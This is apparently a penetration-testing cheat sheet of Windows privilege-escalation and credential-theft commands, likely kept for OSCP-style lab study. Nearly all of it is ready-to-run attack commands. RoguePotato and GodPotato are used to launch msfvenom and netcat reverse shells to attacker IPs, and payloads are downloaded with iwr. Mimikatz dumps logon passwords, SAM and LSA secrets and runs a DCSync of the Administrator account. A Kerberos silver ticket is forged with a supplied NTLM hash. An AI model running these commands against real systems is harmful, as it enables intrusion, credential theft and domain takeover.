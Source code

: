 ### RoguePotato
```bash
sudo socat tcp-listen:135,reuseaddr,fork tcp:<TARGET.MACHINE.IP>:9999
## sudo socat tcp-listen:135,reuseaddr,fork tcp:192.168.217.247:9999

msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.176 LPORT=53 -f exe > reverse.exe
nc -nvlp 53

iwr -uri http://192.168.45.176/RoguePotato.exe -Outfile RoguePotato.exe
iwr -uri http://192.168.45.176/reverse.exe -Outfile reverse.exe

.\RoguePotato.exe -r 192.168.45.176 -l 9999 -e ".\reverse.exe"
```

### GodPotato
```bash
Windows Privesc: God Potato(https://github.com/BeichenDream/GodPotato)
.\GodPotato.exe -cmd "nc -t -e C:\Windows\System32\cmd.exe 192.168.45.202 7777"
.\GodPotato.exe -cmd "cmd /c whoami"
.\GodPotato.exe -cmd ".\revshell7777.exe"

```
### mimikatz
```bash
privilege::debug
token::elevate

sekurlsa::logonpasswords
sekurlsa::tickets
lsadump::sam
lsadump::lsa
```

### Invoke-Mimikatz
```bash
Invoke-Mimikatz -Command '"lsadump::dcsync /domain:Egotistical-bank.local /user:Administrator"'
```

### Silver Tickets(https://systemweakness.com/vulnlab-breach-7db2bb800e88)
![image](https://github.com/nuricheun/OSCP/assets/14031269/d19bd307-1d00-478a-925c-370b483dce13)
![image](https://github.com/nuricheun/OSCP/assets/14031269/472ec5a4-4224-4b09-b2c4-6662e97865d9)
```bash
# Get domain SID
whoami /user
#IIS service ntlm from mimikatz or somewhere
#mimikatz silver ticket attack
kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin
iwr -UseDefaultCredentials http://web04

# on kali machine
ticketer.py -spn SPN -domain-sid DOMAIN SID -nthash NTLM -dc-ip IP_VICTIM -domain domain Administrator
```
